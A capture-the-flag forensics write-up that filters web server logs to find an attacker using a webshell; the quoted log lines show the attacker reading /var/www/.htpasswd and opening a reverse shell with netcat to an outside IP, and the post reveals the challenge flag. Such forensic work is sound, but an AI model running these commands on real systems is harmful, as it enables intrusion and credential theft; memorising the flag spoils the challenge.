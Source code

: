 This looks like web access logs with 38k+ lines.

After a few minutes of poking around, I decided with the approach to filter out lines for web resources which might be innocent (known URLs, javascript files, etc.). This left 334 lines, such as the following:

```
...
2021-09-06 20:44:00 135.233.142.30 GET ivory-market - 443 - 155.198.11.229 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+6.1;+WOW64;+Trident/7.0;+SLCC2;+.NET+CLR+2.0.50727;+.NET+CLR+3.5.30729;+.NET+CLR+3.0.30729;+Media+Center+PC+6.0;+.NET4.0C;+.NET4.0E) - 404 0 0 26
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
2021-09-06 20:56:00 135.233.142.30 GET cream-alignment - 443 - 157.203.61.47 Mozilla/5.0+(Windows+NT+10.0;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/64.0.3282.186+Safari/537.36 - 404 0 0 30
2021-09-06 21:37:00 135.233.142.30 GET tomato-creative - 443 - 185.249.217.21 Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13_3_1+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Version/13.0.5+Mobile/15E148+Safari/604.1+Safari+13 - 404 0 0 20
2021-09-06 21:47:00 135.233.142.30 GET camel-material - 443 - 91.189.92.106 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+Win64;+x64;+Trident/5.0) - 404 0 0 21
```

Of course, `cmd` and `whoami` were eye-catchers. Also noticed `RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ==`, which is base64 to the flag for this challenge:

> DO{better_remove_that_backdoor}

### Part 2 - Investigation and Part 3 - Backup Policy

Challenge descriptions:

Part 2:

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> 
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> 
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}
